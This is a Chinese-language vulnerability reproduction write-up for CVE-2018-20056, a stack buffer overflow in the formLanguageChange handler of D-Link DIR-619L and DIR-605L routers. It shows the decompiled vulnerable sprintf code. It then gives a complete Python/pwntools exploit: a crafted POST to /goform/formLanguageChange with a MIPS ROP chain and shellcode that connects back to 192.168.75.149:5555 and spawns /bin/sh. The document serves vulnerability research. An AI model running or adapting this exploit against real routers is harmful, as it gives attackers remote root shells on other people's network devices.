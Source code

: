 # （CVE-2018-20056）D-Link DIR-619L&605L 栈溢出漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formLanguage函数中存在缓冲区溢出漏洞，在调用sprintf函数时没有对参数的长度进行检查，导致远程攻击者可以通过访问

```
http://[ip]/goform/formLanguageChange并指定currTime参数实现远程代码执行。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

在formLanguageChange函数中，通过websGetVar获取config.i18n_language，nextPage，currTime等参数。websGetVar通过malloc、memcpy将获取到的参数返回给formLanguageChange。formLanguageChange接下来调用了sprintf危险函数向local_f8变量中读入参数内容，并在下一步websRedirect使用了local_f8作为参数。

```
void formLanguageChange(undefined4 uParm1)
{
  int iVar1;
  char *pcVar2;
  undefined4 uVar3;
  FILE *__stream;
  char *__s1;
  char local_f8 [200];
  char acStack48 [24];
  undefined4 local_18;
  int local_14;

  __s1 = (char *)websGetVar(uParm1,"config.i18n_language",&DAT_004ac874);
  ……
  apmib_set(0x129,&local_18);
  __s1 = (char *)websGetVar(uParm1,"nextPage",&DAT_004ac874);
  if (*__s1 == 0) {
    uVar3 = websGetVar(uParm1,"currTime",&DAT_004ac874);//获取currTime参数
    __s1 = "/index.asp";
  }
  else {
    ……
  }
  sprintf(local_f8,"%s?t=%s",__s1,uVar3);//危险函数sprintf直接读入字符
LAB_00460b34:
  websRedirect(uParm1,local_f8);
  ……
  return;
}
```

websRedirect主要调用`send_r_moved_perm`，这个函数调用了两次危险函数sprintf，分别向acStack224(sp+0x19f8-0xe0)和acStack480(sp+0x19f8-0x1e0)中输入字符。

```
undefined4 websRedirect(int iParm1,char *pcParm2)
{
  char *pcVar1;

  *(undefined4 *)(iParm1 + 0x50) = 0;
  pcVar1 = strstr(pcParm2,"/apply_setting.asp");
  if (pcVar1 != (char *)0x0) {
    apply_setting_redirect = apply_setting_redirect + 1;
  }
  send_r_moved_perm(iParm1,pcParm2);
  return 0;
}

void send_r_moved_perm(int iParm1,char *pcParm2)

{
  undefined4 uVar1;
  char *pcVar2;
  undefined auStack6624 [6144];
  char acStack480 [256];
  char acStack224 [200];

  ……
  if (pcVar2 == (char *)0x0) {
    if (*pcParm2 == '/') {
      pcParm2 = pcParm2 + 1;
    }
    sprintf(acStack224,"http://%s/%s",*(undefined4 *)(iParm1 + 0x70),pcParm2);
    pcParm2 = acStack224;
  }
  sprintf(acStack480,

          "<html><head></head><body>\r\n\t\tThis document has moved to a new <ahref=\"%s\">location</a>.\r\n\t\tPlease update your documents to reflect the newlocation.\r\n\t\t</body></html>\r\n"
          ,pcParm2);
  ……s
  return;
}
```

通过第二两个sprintf修改返回地址，构造ROP链，导致程序控制流被劫持。（也可以通过两个sprintf的配合来实现栈的迁移，漏洞作者是这么实现的）

### 漏洞复现

#### poc

```
import requests
import sys
import struct
from pwn import *
#context.log_level='debug'
context.arch='mips'
context.endian='big'
ip='192.168.75.150'

def syscmd1(a):
    p=remote(ip,80)
    z=len(a)
    print "[+]len:"+str(z)
    payload=''
    payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
    payload+='Host: '+ip+'\r\n'
    payload+='Connection: keep-alive\r\n'
    payload+='Accept-Encoding: gzip, deflate\r\n'
    payload+='Accept: */*\r\n'
    payload+='User-Agent: python-requests/2.18.4\r\n'
    payload+='Content-Length: '+str(z+9)+'\r\n'
    payload+='Content-Type: application/x-www-form-urlencoded\r\n'
    payload+='\r\n'
    payload+='currTime='
    payload+=a+'\r\n'
    p.send(payload)
    p.recvuntil('</html>')
    #raw_input()
    p.close()

#base address of libc.so.0
base1=0x2ab88000
###shellcode
sc=struct.pack(">I",0x24060101)
sc+=struct.pack(">I",0x04d0ffff)
sc+=struct.pack(">I",0x2806ffff)
sc+=struct.pack(">I",0x27bdffe0)
sc+=struct.pack(">I",0x27e41001)
sc+=struct.pack(">I",0x2484f023)
sc+=struct.pack(">I",0xafa4ffe8)
sc+=struct.pack(">I",0xafa0ffec)
sc+=struct.pack(">I",0x27a5ffe8)
sc+=struct.pack(">I",0x24020fab)
sc+=struct.pack(">I",0xafa00108)
sc+=struct.pack(">I",0x0101010c)
sc+="/bin//sh\x00"

shellcode =''
shellcode += asm(shellcraft.connect('192.168.75.149',5555))
shellcode += asm(shellcraft.dup2(5,0))
shellcode += asm(shellcraft.dup2(5,1))
shellcode += sc

s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794)### rop2:move $t9,$s2;...;jr $t9 
s2=struct.pack(">I",base1+0x24b70)### rop3:sleep(1)
s3=struct.pack(">I",base1+0x2bdac)### rop5:addiu $a0,$sp,0x18;...;lw $ra,0x30;jr $ra
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1: li $a0,1;move $t9,$s1;jalr $t9;ori $a1,$s0,2
payload1+='b'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x5f98)  ###rop4:lw $ra,0x1c($sp);...;jr $ra
payload1+='c'*0x1c
payload1+=s3
payload1+='d'*0x18
payload1+=struct.pack(">I",0x24910101) ###rop7 addiu $s1,$a0,257;addi $s1,$s1,-257;move $t9,$s1;jalr $t9
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop6:mov $t9,$a0;...;jalr $t9
payload1+='e'*0x20+shellcode
if __name__ == "__main__":
    syscmd1(payload1)
```

利用效果:

![image](resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/13-20201014111355334.png)

![image](resource/%EF%BC%88CVE-2018-20056%EF%BC%89D-Link%20DIR-619L&605L%20%E6%A0%88%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E/media/14-20201014111355336.png)